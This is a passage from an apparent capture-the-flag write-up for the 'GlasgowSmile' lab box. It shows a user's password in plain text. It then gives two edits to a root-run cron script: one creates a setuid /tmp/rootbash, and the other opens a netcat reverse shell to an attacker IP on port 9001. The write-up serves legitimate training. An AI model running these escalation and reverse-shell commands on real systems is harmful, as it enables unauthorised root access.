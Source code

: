 ## Pivot to Penguin User

The creds are _penguin:scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz_

The script _.trash_old_ should execute with root permissions.

```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 332
drwxr--r-- 2 penguin penguin   4096 Nov 18 22:03 .
drwxr-xr-x 5 penguin penguin   4096 Nov 18 21:59 ..
-rwSr----- 1 penguin penguin 315904 Jun 15  2020 find
-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
-rwxr-xr-x 1 penguin root       662 Nov 18 22:03 .trash_old
-rw-r----- 1 penguin penguin     32 Aug 25  2020 user3.txt

```

Assuming this is probably being executed by _root_ on a cron job, let's edit and add a command that creates a _rootbash_ script with root privileges.

![rootbash](../../../assets/images/ctfs/proving_grounds/glasgowsmile/rootbash.png)

```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat .trash_old
#/bin/sh

#       (            (              )            (      *    (   (
# (      )\ )   (     )\ ) (      ( /( (  (       )\ ) (  `   )\ ))\ )
# )\ )  (()/(   )\   (()/( )\ )   )\()))\))(   ' (()/( )\))( (()/(()/( (
#(()/(   /(_)((((_)(  /(_)(()/(  ((_)\((_)()\ )   /(_)((_)()\ /(_)/(_)))\
# /(_))_(_))  )\ _ )\(_))  /(_))_  ((__(())\_)() (_)) (_()((_(_))(_)) ((_)
#(_)) __| |   (_)_\(_/ __|(_)) __|/ _ \ \((_)/ / / __||  \/  |_ _| |  | __|
#  | (_ | |__  / _ \ \__ \  | (_ | (_) \ \/\/ /  \__ \| |\/| || || |__| _|
#   \___|____|/_/ \_\|___/   \___|\___/ \_/\_/   |___/|_|  |_|___|____|___|
#

#

cp /usr/bin/bash /tmp/rootbash
chmod +s /tmp/rootbash

exit 0

```

This is not working for some reason, so we will send a reverse shell with root privileges to our attack machine.

```bash
#/bin/sh

#       (            (              )            (      *    (   (
# (      )\ )   (     )\ ) (      ( /( (  (       )\ ) (  `   )\ ))\ )
# )\ )  (()/(   )\   (()/( )\ )   )\()))\))(   ' (()/( )\))( (()/(()/( (
#(()/(   /(_)((((_)(  /(_)(()/(  ((_)\((_)()\ )   /(_)((_)()\ /(_)/(_)))\
# /(_))_(_))  )\ _ )\(_))  /(_))_  ((__(())\_)() (_)) (_()((_(_))(_)) ((_)
#(_)) __| |   (_)_\(_/ __|(_)) __|/ _ \ \((_)/ / / __||  \/  |_ _| |  | __|
#  | (_ | |__  / _ \ \__ \  | (_ | (_) \ \/\/ /  \__ \| |\/| || || |__| _|
#   \___|____|/_/ \_\|___/   \___|\___/ \_/\_/   |___/|_|  |_|___|____|___|
#

#

nc -e /bin/bash 192.168.45.217 9001

```